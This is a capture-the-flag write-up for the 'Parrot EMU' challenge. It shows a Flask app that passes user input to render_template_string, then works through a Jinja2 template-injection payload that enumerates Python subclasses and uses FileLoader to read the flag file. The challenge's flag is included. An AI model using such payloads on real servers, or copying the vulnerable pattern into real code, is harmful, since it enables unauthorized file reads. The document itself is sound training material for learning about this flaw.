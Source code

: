 ```yaml
---
ai_date: '2025-04-27 05:15:40'
ai_summary: Template injection exploiting 'FileLoader' to read flag
ai_tags:
- template
- template-injection
- class-extraction
created: 2024-07-06T23:50
description: A template injection chat bot
points: 100
solves: 993
title: Parrot EMU
updated: 2024-07-07T21:46
---
```


```python
try:
	result = render_template_string(user_input)
except Exception as e:
	result = str(e)
```

Well, its template injection time.
## Template Injection

Code inside of templates, have a very limited context, they are missing `globals`.
So we have to find those classes.
### Find Classes
`{{''.__class__.__base__.__subclasses__()}}`
`''.__class__` is the `str` class, `<str>.__base__` is the `object` class, this payload will hence give us all available classes.

```python
# EMU REPLY:
`[<class 'type'>, <class 'weakref'>, <class 'weakcallableproxy'>, <class 'weakproxy'>, <class 'int'>, <class 'bytearray'>, ...

<class '_frozen_importlib_external.FileLoader'>,  # this is what we want to use
<class '_frozen_importlib_external._NamespacePath'>, 
...
<class 'werkzeug.debug.console.Console'>, <class 'werkzeug.debug.tbtools.Line'>, <class 'werkzeug.debug.tbtools.Traceback'>, <class 'werkzeug.debug.tbtools.Group'>, <class 'werkzeug.debug.tbtools.Frame'>, <class 'werkzeug.debug._ConsoleFrame'>, <class 'werkzeug.debug.DebuggedApplication'>]`
```

We will use `FileLoader` to read our flag.
`a.findIndex(a=>a.includes("File")) = 99`, we have determined that its the 99th item is the subclass list.

## Attack
`{{''.__class__.__base__.__subclasses__()[99]("flag", "flag").get_data("flag")}}`

This constructs a new `FileLoader` instance and reads the flag.

`DUCTF{PaRrOt_EmU_ReNdErS_AnYtHiNg}`

Simple stuff.